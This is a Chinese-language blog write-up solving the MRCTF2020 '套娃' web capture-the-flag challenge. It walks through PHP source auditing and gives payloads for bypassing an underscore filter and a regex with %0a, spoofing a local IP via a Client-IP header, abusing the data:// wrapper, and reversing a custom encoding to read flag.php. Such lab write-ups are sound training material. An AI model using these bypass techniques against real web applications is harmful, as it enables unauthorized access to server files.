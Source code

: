 ```yaml
---
layout: mypost
title: "[MRCTF2020]套娃"
categories: [ctf_wp]
---
```


1.这道题相对来说就很基础了，首先登上去网页都是空白的

![](image-20230922211632330-1024x478.png)

然后f12查看源代码

```
$query = $_SERVER['QUERY_STRING'];

 if( substr_count($query, '_') !== 0 || substr_count($query, '%5f') != 0 ){
    die('Y0u are So cutE!');
}
 if($_GET['b_u_p_t'] !== '23333' && preg_match('/^23333$/', $_GET['b_u_p_t'])){
    echo "you are going to the next ~";
}
```

这就是一个很简单的绕过哈，首先绕过一下这个下划线，这个空格和.都可以绕过，然后就是一个绕过正则匹配表达式，这个现在看就很简单哈，最基础的，不懂的话可以康康我博客里面的--CTF中那些奇奇怪怪的正则表达式这篇文章，由浅入深讲解了正则表达式，下面就直接给个Payload吧

```
?b.u.p.t=23333%0a
```

2.然后访问给出了信息

![](image-20230922212936456.png)

接着访问它查看源码就会看到下面这一串加密的字符，这个在CTF里面还算是比较常见的，就是一个名叫JsFuck的加密方式

![](image-20230922213344773-1024x512.png)

把这个放到网站上解密之后的结果就是会弹出一个弹框，里面写着POST Merak，然后用POST访问加个参数Merak=1，就会在页面中展出网站的一个php源码

```
<?php 
error_reporting(0); 
include 'takeip.php';
ini_set('open_basedir','.'); 
include 'flag.php';

if(isset($_POST['Merak'])){ 
    highlight_file(__FILE__); 
    die(); 
} 


function change($v){ 
    $v = base64_decode($v); 
    $re = ''; 
    for($i=0;$i<strlen($v);$i++){ 
        $re .= chr ( ord ($v[$i]) + $i*2 ); 
    } 
    return $re; 
}
echo 'Local access only!'."<br/>";
$ip = getIp();
if($ip!='127.0.0.1')
echo "Sorry,you don't have permission!  Your ip is :".$ip;
if($ip === '127.0.0.1' && file_get_contents($_GET['2333']) === 'todat is a happy day' ){
echo "Your REQUEST is:".change($_GET['file']);
echo file_get_contents(change($_GET['file'])); }
?>
```

3.审计一下，一开始条件的话就两个点哈，第一就是ip必须是127.0.0.1，第二就是满足2333这个参数里面的值等于todat is a happy day

```
1.首先说第一点，这个一开始我是直接将X-Forwarded-For这个参数改成127.0.0.1，结果不太行，然后上网查了几个改ip的方法，最终确定了要用这个client-ip: 127.0.0.1
2.第二点这个有坑啊，一开始脑抽了，直接写的$2333=todat is a happy day,然后才想到这个file_get_contents（）函数是把一个文件转换成字符串，既然没文件，那肯定就是用伪协议了，一看这不是data就是input，这里用的data啊，写下这个Payload：&2333=data://text/plain,todat+is+a+happy+day
```

4.就剩下最后一点了，这点也很简单，咱们最终目的是把flag.php传到file\_get\_contents（）里面，但是在这之前会用到一个change（）函数，而这个函数的目的就是先把传进去的参数解密，然后放到一个字典里面，遍历所有的字符，把他们的ASCII值加+上自己索引的二倍，然后转换成字符串作为函数的返回值，那我们要想传一个flag.php,只要相反的做一遍这个事情就可以了，下面写个POC

```
<body>

<?php
function rechange($v){

    $re = '';
    for($i=0;$i<strlen($v);$i++){
        $re .= chr ( ord ($v[$i]) - $i*2 );
    }
    $m = base64_encode($re);
    return $m;
}
$s = 'flag.php';
$a = rechange($s);
echo $a;
?>
<body>
```

然后输出的结果就是ZmpdYSZmXGI=

![](image-20230922215147913-1024x495.png)

5.最后把这些条件叠加一下就得到flag啦！

![](image.png)

Finish!!!